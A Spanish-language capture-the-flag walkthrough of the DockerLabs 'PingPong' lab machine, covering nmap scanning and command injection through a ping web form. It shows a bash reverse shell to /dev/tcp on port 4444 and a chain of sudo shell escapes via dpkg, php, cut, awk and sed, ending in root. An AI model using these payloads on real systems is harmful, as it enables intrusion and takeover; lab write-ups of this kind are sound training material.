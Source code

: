 # PingPong
![pingpong](https://github.com/TBrux/DOCKERLABS/assets/168732212/839c278d-0cfe-47ea-af7c-cfe28d7b0f1e)

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bash
PORT     STATE SERVICE REASON
80/tcp   open  http    syn-ack ttl 64
443/tcp  open  https   syn-ack ttl 64
5000/tcp open  upnp    syn-ack ttl 64
```

Como tenemos abiertos los puertos 80, 443 y 5000 vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p80,443,5000 -vvv -oN versionPorts 172.17.0.2
```
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p80,443,5000`: Escaneo de los puertos.
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.
```
```
PORT     STATE SERVICE  REASON         VERSION
80/tcp   open  http     syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp  open  ssl/http syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
| tls-alpn: 
|_  http/1.1
5000/tcp open  upnp?    syn-ack ttl 64
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
```
Enumero los tres puertos y vemos que en el puerto 5000, tenemos una página con la que podemos lanzar un ping a una ip.
![ping](https://github.com/TBrux/DOCKERLABS/assets/168732212/e8b49c6e-05d4-4ca7-86dc-56163e91f21a)

## Explotación.

Podemos utilizar que podemos lanzar un ping y concatenar otro comando para lanzarnos una reverse shell, poniendonos a la escucah en nuestra máquina atacante.
```bash
172.17.0.1 | bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'
```
```bash
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 56412
bash: cannot set terminal process group (33): Inappropriate ioctl for device
bash: no job control in this shell
freddy@5b164d9e97a0:~$ whoami
whoami
freddy
freddy@5b164d9e97a0:~$
```
## Escalada de privilegios.
Hemos obtenido acceso como **freddy**, ahora toca ir escalando privilegios hasta obtener privilegio como el usuario **root**.
```bash
freddy@5b164d9e97a0:~$ sudo -l
sudo -l
Matching Defaults entries for freddy on 5b164d9e97a0:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User freddy may run the following commands on 5b164d9e97a0:
    (bobby) NOPASSWD: /usr/bin/dpkg
```
Vemos que podemos utilizar el binario dpkg como el usaruio bobby, que si vamos a [GTFOBins](https://gtfobins.github.io/gtfobins/dpkg/), podemo sver que lo podemos lanzar utlizando el siguient comando.
```bash
sudo dpkg -l
!/bin/sh
```
```bash
sudo -u bobby /usr/bin/dpkg -l
```
```
freddy@b3e2108c7216:~$ sudo -u bobby /usr/bin/dpkg -l
Desired=Unknown/Install/Remove/Purge/Hold
| Status=Not/Inst/Conf-files/Unpacked/halF-conf/Half-inst/trig-aWait/Trig-pend
|/ Err?=(none)/Reinst-required (Status,Err: uppercase=bad)
||/ Name                            Version                           Architecture Description
+++-===============================-=================================-============-================================================================================
ii  adduser                         3.137ubuntu1                      all          add and remove users and groups
                                                                                                                                 
!/bin/bash
bobby@b3e2108c7216:/home/freddy$ whoami                                                                                                                                                                                      bobby
````
Si seguimos comprobando los archivos vemos que podemos ejecutar como **gladys /usr/bin/php**.

```bash
bobby@b3e2108c7216:/home/freddy$ sudo -l                                                                                                                                                                                     
Matching Defaults entries for bobby on b3e2108c7216:                                                                                                                                                                             env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty                                                                                              User bobby may run the following commands on b3e2108c7216:                                                                                                                                                                        (gladys) NOPASSWD: /usr/bin/php                                                                                                                                                                             
bobby@b3e2108c7216:/home/freddy$ 
```
Volvermos a [GTFOBins](https://gtfobins.github.io/gtfobins/php/) y observamos que podemos ejecutar una shell desde **php**..
```bash
CMD="/bin/bash"
sudo -u gladys php -r "system('$CMD');"
```
Desde gladys vemos que podemos utilizar el comando **cut** para leer un archivo como el el usuario **chocolatito**. Buscamos archivos **txt** y encontramos la contraseña del usuario **chocolatito**.
```
gladys@b3e2108c7216:/opt$ ls
chocolatitocontraseña.txt
```
```bash
sudo -u chocolatito /usr/bin/cut -d "" -f1 "chocolatitocontraseña.txt"
```
```
gladys@b3e2108c7216:/opt$ sudo -u chocolatito /usr/bin/cut -d "" -f1 "chocolatitocontraseña.txt" 
chocolatitopassword
```
Una vez que tenemos el password, cambiamos al usuario chocolatito y comprobamos si podemos seguir escalando privilegios.
```
gladys@b3e2108c7216:/opt$ su chocolatito
Password: 
chocolatito@b3e2108c7216:/opt$ whoami
chocolatito
```
```bash
chocolatito@b3e2108c7216:/opt$ sudo -l
Matching Defaults entries for chocolatito on b3e2108c7216:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User chocolatito may run the following commands on b3e2108c7216:
    (theboss) NOPASSWD: /usr/bin/awk
```
Pues utilizamos igual que las otras veces el comando para escalar privilegios, en este caso **awk**.
```bash
sudo -u theboss awk 'BEGIN {system("/bin/sh")}'
```
```
chocolatito@b3e2108c7216:/opt$ sudo -u theboss awk 'BEGIN {system("/bin/sh")}'
whoami
theboss
```
Ahora como el usuario **theboss** seguimos viendo si podemos escalar privilegios, y ya vemos que podemos escalar a **root** con **/urs/bin/sed**.
```
theboss@b3e2108c7216:/opt$ 
Matching Defaults entries for theboss on b3e2108c7216:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User theboss may run the following commands on b3e2108c7216:
    (root) NOPASSWD: /usr/bin/sed
```
```bash
sudo -u root /usr/bin/sed -n '1e exec sh 1>&0' /etc/hosts
```
```
theboss@b3e2108c7216:/opt$ sudo -u root /usr/bin/sed -n '1e exec sh 1>&0' /etc/hosts
whoami
root
```
